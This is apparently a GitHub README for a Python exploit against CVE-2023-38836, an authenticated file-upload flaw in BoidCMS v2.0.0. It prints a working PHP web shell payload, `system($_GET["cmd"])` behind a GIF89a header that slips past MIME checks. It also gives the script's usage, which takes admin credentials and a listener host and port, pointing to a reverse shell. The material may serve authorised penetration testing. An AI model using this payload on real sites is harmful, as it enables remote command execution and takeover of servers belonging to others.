

# CVE-2023-38836 Exploit
File Upload vulnerability in BoidCMS v.2.0.0 allows an authenticated attacker to upload a file with dangerous type (CWE-434).
<br/>
To exploit, an attacker could add a GIF header to bypass MIME type checks.
```php
GIF89a;
<?php system($_GET["cmd"]); ?>
```

## Usage
```
usage: CVE-2023-38836.py [-h] [-u URL] [-U USER] [-P PASSWD] [-l LHOST] [-p LPORT]

Exploit for CVE-2023-38836

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     website url
  -U USER, --user USER  admin username
  -P PASSWD, --passwd PASSWD
                        admin password
  -l LHOST, --lhost LHOST
                        listening host
  -p LPORT, --lport LPORT
                        listening port
```


